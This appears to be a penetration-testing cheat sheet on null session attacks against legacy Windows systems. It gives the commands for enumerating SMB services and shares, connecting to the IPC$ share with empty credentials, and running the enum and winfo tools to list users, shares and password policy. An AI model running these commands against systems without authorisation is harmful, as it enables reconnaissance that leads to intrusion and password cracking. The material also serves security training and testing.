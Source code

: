 # Null Sessions

### Introduction

**THIS ATTACK ONLY WORKS ON LEGACY WINDOWS SYSTEMS**

These attacks can be used to enumerate

* Passwords
* System Users
* System Groups
* Running System Processes

Null sessions are remotely exploitable, they can be used to call remote apis and remote procedure calls,



### Enumerating Windows Shares

#### Service Enumeration using nbtstat (windows)

```
nbtstat -A IP
```

Analyzing Output Codes

* `<00>` means machine is a workstation
* `<UNIQUE>` means only 1 ip is assigned
* `<20>` tells us that file sharing service is up and running on the machine

#### Shares Enumeration using Net View (windows)

```
NET VIEW IP
```

#### Service Enumeration using nmblookup (linux)

```
nmblookup -A IP
```

#### Shares Enumeration using smbclient (linux)

```
smbclient -L //IP -N
```

* \-N forces tool to not ask for password
* This tool also list **administrative shares** that are hidden by using windows tools.



### Checking for Null Sessions

We try to connect to `ipc$` administrative share without valid credentials. These don't work with `C$`

#### Windows

```
NET USE \\IP\IPC$ '' /u:''
```

This tells windows to connect with empty password and empty username.

#### Linux

```
smbclient //IP/IPC$ -N
```



### Exploiting with [Enum](http://packetstormsecurity.com/search/?q=win32+enum\&s=files) Script

It can be run from windows cmd.

```
enum -S ip
```

\-S lets you enumerate shares of machine, it enumerates admin shares too

```
enum -U ip
```

\-U enumerates the users

```
enum -P ip
```

\-P tells you about the password policy which is useful for password cracking.



### Exploiting with [Winfo](http://packetstormsecurity.com/search/?q=winfo\&s=files) Script

It is also a cli script used to automate null session attack

```
winfo ip -n
```



### Exploiting with Enum4Linux

It is also used to attack null sessions.

